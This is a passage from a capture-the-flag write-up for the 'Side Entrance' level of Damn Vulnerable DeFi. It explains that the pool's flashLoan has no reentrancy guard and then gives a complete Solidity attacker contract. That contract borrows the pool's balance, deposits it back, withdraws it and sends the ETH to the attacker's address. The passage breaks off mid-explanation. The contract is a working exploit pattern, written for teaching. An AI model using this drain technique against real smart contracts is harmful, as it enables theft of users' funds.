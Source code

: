 The catch here is that [`flashLoan`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/3e2a3675f4a733557ee9417b97fee104c0110618/contracts/side-entrance/SideEntranceLenderPool.sol#L29-L37) doesn't include a reentrancy guard.

### Solution

In our first call, we will borrow the total amount of ETH in the contract, then on [line 33](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/3e2a3675f4a733557ee9417b97fee104c0110618/contracts/side-entrance/SideEntranceLenderPool.sol#L33) our contract's `execute` function is called, which will again call `flashLoan`, but this time is requesting 0 ETH.

Create the following contract:

```sol:contracts/attacker-contracts/side-entrance/SideEntranceAttacker.sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "../../side-entrance/SideEntranceLenderPool.sol";

contract SideEntranceAttacker is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;
    address payable attacker;

    constructor(SideEntranceLenderPool poolAddress, address payable attackerAddress) {
        pool = poolAddress;
        attacker = attackerAddress;
    }

    function attack() external {
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
    }

    // callback function called in SideEntranceLenderPool.flashLoan
    function execute() external override payable {
        if (msg.value > 0) {
            pool.deposit{value: msg.value}();
            pool.flashLoan(0);
        }
    }

    receive() external payable {
        // transfer received ETH to our EOA
        (bool success,) = attacker.call{value: msg.value}("");
        require(success, "Error while transferring ETH");
    }
}
```

Here is what is happening in the second call:

1. `address(this).balance` will now return `0`, and `amount` is also `0`. So the `require` condition on [line 31](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/3e2a3675f4a733557ee9417b97fee104c0110618/contracts/side-entrance/SideEntranceLenderPool.sol#L31) will also pass.
